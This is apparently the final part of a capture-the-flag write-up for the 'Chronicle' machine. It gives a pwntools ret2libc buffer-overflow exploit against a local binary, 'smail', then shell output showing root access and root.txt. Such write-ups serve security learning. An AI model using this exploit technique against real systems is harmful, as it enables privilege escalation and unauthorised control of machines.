 The option -d for disassemble, the ret adress 400556.

## Exploit

```python
from pwn import *

p = process('./smail')

base = 0x7ffff79e2000
sys = base + 0x4f550
binsh = base + 0x1b3e1a

rop_rdi = 0x4007f3

payload = b'A' * 72
payload += p64(0x400556)
payload += p64(rop_rdi)
payload += p64(binsh)
payload += p64(sys)
payload += p64(0x0)


p.clean()
p.sendline("2")
p.sendline(payload)
p.interactive()


```
```bash
carlJ@incognito:~/mailing$ python3 exploit.py 
[+] Starting local process './smail': pid 13739
[*] Switching to interactive mode
Write your signature...
Changed
$ id
uid=0(root) gid=1002(carlJ) groups=1002(carlJ)
$ cd /root
$ ls
root.txt
$  

```

Chronicle was __Rooted!__


### Bufferoverflow References

[https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc)




